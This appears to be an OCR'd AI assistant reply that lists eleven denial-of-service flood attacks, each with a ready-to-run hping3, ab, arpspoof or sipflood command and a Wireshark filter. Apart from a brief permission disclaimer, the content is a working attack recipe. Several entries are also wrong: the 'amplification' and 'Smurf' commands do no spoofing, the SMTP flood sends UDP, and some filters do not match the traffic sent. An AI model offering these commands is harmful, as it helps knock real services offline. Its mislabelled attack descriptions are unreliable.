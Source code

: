 I can guide you through performing these types of flood attacks and capturing the traffic using Wireshark. However, please ensure you have explicit permission to conduct these tests, as unauthorized testing can be illegal and unethical.

### 1. SYN Flood
A SYN flood attack involves sending a succession of SYN requests to a target's system in an attempt to consume enough server resources to make the system unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```

### 2. UDP Flood
A UDP flood attack sends a large number of UDP packets to random ports on a remote host.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
udp
```

### 3. ICMP Flood (Ping Flood)
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

### 4. HTTP Flood
An HTTP flood attack sends a large number of HTTP requests to a web server.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```

**Wireshark Filter:**
```plaintext
http
```

### 5. DNS Flood
A DNS flood attack sends a large number of DNS requests to a DNS server.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 6. SMTP Flood
An SMTP flood attack sends a large number of SMTP requests to an SMTP server.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
smtp
```

### 7. ARP Flood
An ARP flood attack sends a large number of ARP requests to a network.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```

**Wireshark Filter:**
```plaintext
arp
```

### 8. DNS Amplification Attack
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
dns
```

### 9. NTP Flood
An NTP flood attack sends a large number of NTP requests to an NTP server.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
ntp
```

### 10. SIP Flood
A SIP flood attack sends a large number of SIP requests to a SIP server.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```

**Wireshark Filter:**
```plaintext
sip
```

### 11. Smurf Attack
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```

**Wireshark Filter:**
```plaintext
icmp
```

Would you like me to explain or break down any of the commands or filters?
